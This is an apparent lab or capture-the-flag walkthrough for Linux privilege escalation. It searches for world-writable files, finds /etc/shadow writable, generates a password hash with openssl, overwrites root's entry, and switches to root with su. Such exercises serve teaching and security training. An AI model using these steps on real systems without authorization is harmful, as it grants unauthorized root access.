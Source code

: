 # 3⃣ Permissions

### Search for world writable files

```
find / -not -type l -perm -o+w 2>/dev/null
```

{% hint style="info" %}
We found that `/etc/shadow` is world writable.
{% endhint %}

```
ls -l /etc/shadow
```

### Generate a hash for password "password"

```
openssl passwd -1 -salt abc password
```

{% hint style="info" %}
Add the hash in the root entry in shadow file
{% endhint %}

### Escalate to root

```
su

<enter the new password>
```

